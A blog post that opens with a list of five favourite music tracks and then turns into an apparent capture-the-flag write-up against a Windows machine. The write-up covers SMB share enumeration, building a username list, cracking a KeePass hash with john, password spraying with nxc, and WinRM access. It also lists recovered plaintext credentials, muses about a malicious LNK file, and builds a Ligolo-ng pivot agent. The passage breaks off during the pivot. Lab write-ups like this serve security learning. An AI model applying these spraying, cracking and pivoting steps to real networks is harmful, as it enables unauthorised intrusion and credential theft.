## Welcome

Here's a list of *five* tracks from this year that I really enjoyed. I typically dive into some older music so I am trying to have a bit of variety! It's like when you have a restaurant you already know — go there, sit down, get your favorite meal. You *know* the outcome. Diving into the unknown, you may not like it. That's okay too.

It's about getting uncomfortable, right?

### 1. idontcare — MiAmi GirLs



First time I heard the artist just randomly on shuffle. Song *instantly* became a favorite for me.

### 2. Sarah Davachi — Canto Duo



This piece is lovely. Timid. In search of *something*. Track sits at nine minutes and feels so inviting.

Really enjoyed the album as well, give it a listen!

### 3. EQ Why — Humidity



Off the album 6-7. Loving footwork lately and this just hyped me up so much. Head bobbing just sitting here re-listening while I add the track to this list.

### 4. Space Afrika & Tony Njoku — MLN



Really big fan of Space Afrika ever since I heard the album *Honest Labour* around five years ago. Especially love when the guitar comes in around three minutes in. Elevating!

### 5. Damien Dalla Torre — Chives



Heartwarming. Beautiful instruments all around. It progresses into this beautiful melody all around. Lying in the grass, staring at the sun. Wind presses your shirt flat against your chest. For a few moments, you feel ok.

### Training progress

A quick update on my daily habit and strength streaks before the technical part:



---

## Initial Enumeration

```
Open 10.0.24.218:135
Open 10.0.24.218:139
Open 10.0.24.218:445
Open 10.0.24.218:3389
Open 10.0.24.218:5985
Open 10.0.24.218:49669
```

Key stand outs: RDP, SMB, WinRM, and possibly RPC.

Really not a whole lot to look at, at the moment. 



We are given a Target Name at least!

Also, why the hell does port 5985 have this HTTPAPI thing? I always wondered because the nmap goes to check for a web server there.

Ah, apparently it's because typical `WinRM` communicates over HTTP, seems pretty insecure to me!

But what do I know?




Right away we see a share we can read. `HR` share.

We are going to try enumerating with the `smbclient` tool.

```
smbclient //NewHire/HR -u guest
```



Four files! Enumerating them on my own machine downloading them with `mget *`.



Right away we are seeing a password that we can possibly spray.

```
MegaCorp2026!
```




We opened the `New_Employees` PDF and we found some potential users!

My first thought here was to spray passwords at this.



Only took a screenshot of this because I see `prepared by Noa Vidal`. Could be a username in the future?



Found potentially three more names to add to my list of potential users.

```
Shams Elmarakshi
Luca Richter
Parker McLean
```

And for a total possible username list I came up with...

```
a.glein
j.daya
t.torner
j.castillo
alvin
jen
tim
jose
Alvin
Tim
Jose
Jen
alvin.glein
jen.daya
tim.torner
jose.castillo
shams.elmarakshi
luca.richter
parker.mclean
parker
luca
shams
s.elmarakshi
l.richter
p.mclean
```

Maybe overkill idk? One thing I thought about doing was creating some sort of python script where I can get a list of names, and creates a list of possible usernames to spray. 



Probably should have tried the `--rid-brute` earlier, lol. We have a list of users on the machine.

```
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
None
tim.torner
jose.castillo
fred.green
SQLServer2005SQLBrowsuerUSER
sysadmin
```



No idea why I decided tim.torner was first, but was like screw it. We have new access to a share!





I went through the PDF, which really didn't have anything interesting.




Booooo.

From previous boxes, I know there is some potential keepass2john you can use.



I think that's how you do it? Idk.

Created the hash.txt

Ran john with this syntax.

```
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



Potentially `princess`, let's try it out.



Wtf?



Awesome, three new credentials!

```
Fred Green:7ERRI9Q0YEfvJYF
testaccount:noodlebooger90000
legacyadmin:hrCrazh5zKagLPQiD6wM
```

Earlier we saw Fred Green in the list of users. Maybe we try him first? 

```
f.green:7ERRI9Q0YEfvJYF
```

It also wouldn't be a bad idea to spray these passwords against all known users, maybe for a quick win with the admin. I see legacyadmin on there as well.



Hmm. Looks like that didn't work, it defaulted back to the Guest.

Let's try a password spray amongst all the known accounts.



New updated passwords.txt



New updated users.txt

Our command

```
nxc smb -u users.txt -p passwords.txt --continue-on-sucess
```

Used the continue on success flag in order to allow for multiple accounts to be found.



Apparently I just can't type! 

```
fred.green:7ERRI9Q0YEfvJYF
tim.torner:MegaCorp2026!
jose.castillo:MegaCorp2026
```

I guess jose.castillo was also another I didn't check.. noted for later.



Interesting, Fred also has the `Write` ability to the share. I wonder if there is an IT person that clicks links in there. Or does a backup. We could essentially get some credentials through  a malicious `LNK` file.



Alright, we have at least some access. Fred has access through Win-RM.

Let's see what we can find out here.



Nothing is standing out here to me.



This would be our user flag if we needed it.



Interesting...

Here are our other users. 

Likely we are going to try and see if we can authenticate to the sysadmin....




RIP.



I wanted to make sure before I get too far that I spray all the passwords I got against WinRM. Nothing new there.




Was not expecting sysadmin to **NOT** be in the local Administrators .



No session from sysadmin.



`netstat -ano` not really showing me anything interesting.

I searched online for the typical `DATA` directory for Microsoft SQL 2025 Sever and..



No luck there.

I checked the two binaries `PsExec` and `putty` in the IT folder to see if they were just tools, or if they had some hardcoded passwords in there, nothing.

At this point I’m really stuck, so I’m trying a winPEAS here. I read manually through the whole thing and this is the only thing I found that seemed interesting to go through.

C:\Users\FRED~1.GRE\AppData\Local\Temp
C:\Users\fred.green\Documents\WindowsPowerShell\
C:\Users\fred.green\AppData\Roaming
C:\Users\fred.green\ntuser.ini
C:\Users\fred.green\AppData\Local\Temp\Adobe_ADMLogs\Adobe_ADM.log

I tried manually going through the `AppData` and `Roaming` myself and no look. 

------------------------------------------------------------------------




Looks like we missed something....

This port is typically representing SQL of somekind.


Pivoting into the internal with `Ligolo-ng`.


```
GOOS=windows GOARCH=amd64 go build -o agent.exe ./cmd/agent
```

Command used for the creation of the agent.

